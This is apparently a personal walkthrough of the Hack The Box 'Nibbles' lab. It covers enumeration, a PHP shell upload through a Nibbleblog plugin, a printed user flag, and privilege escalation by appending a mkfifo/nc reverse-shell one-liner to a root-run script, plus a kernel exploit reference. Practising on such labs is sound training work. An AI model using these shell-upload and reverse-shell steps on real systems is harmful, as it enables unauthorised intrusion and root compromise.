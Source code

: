 # Nibbles HTB, IP 10.10.10.75

# Initial Enumeration

**1. nmap -sC -sV  10.10.10.75**


2. Dirbuster/ Gobuster
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.75/nibbleblog
dirb http://10.10.10.75/nibbleblog -X .php,.bit,.html,.sh

-------------------------------------------------------------------------------------------------------------------------------
#Port Enumeration

1. Enumerating on port 80


View page source: Control +U
 
 
 
Interesting Files

http://10.10.10.75/nibbleblog/
 
 After searching  Nibbleblog it is a powerful engine for creating blogs. 
 
 searchsploit nibbleblog
 

http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php.
Done, we have an unprivileged shell!!



Interactive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color

cat user.txt
b02ff32bb332deba49eeaed21152c8d8

--------------------------------------------------------------------------------------------------------------------------------------------------------------------
#1 Privilege Escalation monitor.sh file
sudo -l




unzip personal.zip


Notes:
When we see a back up file we first look at permissions and potential vulnerarle code. Then we google the file in order to find more info.
If we cannot overwrite the file we could rename it, remove it, zip it or make my own file containing bash, reverse shell.
The concept when a file runs as root is to add code(reverse-shell).

Add a reverse shell to monitor.sh.
echo “rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacking machine>  4422 > /tmp/f” >> monitor.sh


monitor.sh file runs as administrator

Notes:
  A System Administrator has to monitor the servers, users, logs, create backup.. For the most repetitive task most of the administrator write a script like monitor.sh to automate their day-to-day repetitive task.
  
#2 Kernel Exploit
Additionally, this box is vulnerable to a kernel exploit. This monitor.sh file script showed OS Vesion 16.04.3.

  
  
CVE ID 44298
Resource:  https://www.exploit-db.com/exploits/44298

  
 
